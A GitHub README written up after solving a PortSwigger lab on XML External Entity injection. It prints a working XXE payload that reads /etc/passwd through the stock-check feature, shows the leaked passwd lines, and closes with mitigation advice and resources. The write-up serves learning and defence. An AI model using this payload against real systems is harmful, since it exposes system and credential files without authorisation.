 ### 📁 `README.md` — XXE via External Entity (Apprentice)

````markdown
# 📄 Exploiting XXE Using External Entities to Retrieve Files

**🧪 Lab Level:** Apprentice  
**🔐 Vulnerability:** XML External Entity (XXE)  
**✅ Status:** Solved  
**🛠 Platform:** PortSwigger Web Security Academy  
**🎯 Objective:** Retrieve the contents of `/etc/passwd` using a basic XXE injection.

---

## 🔍 Lab Summary

This lab demonstrates how an XML parser vulnerable to external entities can be exploited to read files from the server's filesystem.  
The "Check stock" feature parses XML input and reflects back invalid input in the response — which is ideal for testing XXE.

---

## 🚦 Steps to Exploit

### 📥 Original HTTP Request

```http
POST /product/stock HTTP/1.1
Host: [YOUR-LAB-HOST]
Content-Type: application/xml
Content-Length: [XX]

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
````

---

### 💣 Malicious Payload (External Entity Injection)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

---
![XXE](https://github.com/Kabilala/xxe/blob/main/lab1/lab1.png)

### 🧾 Server Response

When the injection is successful, the server returns an error containing the contents of `/etc/passwd`:

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

---

## 🧠 Technical Breakdown

| Component                                   | Purpose                                                                   |
| ------------------------------------------- | ------------------------------------------------------------------------- |
| `<!DOCTYPE>`                                | Declares a DTD (Document Type Definition)                                 |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Defines an external entity pointing to the target file                    |
| `&xxe;`                                     | Triggers the entity resolution, injecting file contents into the XML body |

---

## 🔐 Mitigation Techniques

To prevent this vulnerability in production systems:

* Disable DTD processing in your XML parsers
* Use secure libraries (e.g. `defusedxml` in Python, `SAXParserFactory.setFeature` in Java)
* Sanitize or avoid XML input from untrusted sources
* Apply the principle of least privilege: ensure the app cannot read sensitive files

---

## 📚 Resources

* [🛡️ PortSwigger XXE Labs](https://portswigger.net/web-security/xxe)
* [📄 OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [🔥 PayloadsAllTheThings: XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)

---

## 👩‍💻 Author

**Kaouthar Belkebir**
Cybersecurity Enthusiast | Pentest Learner | PortSwigger & TryHackMe Explorer
[LinkedIn](https://www.linkedin.com/in/kaouthar-belkebir-ab453223b) | [Credly Certifications](https://www.credly.com/users/kawtar-belkebir)

```
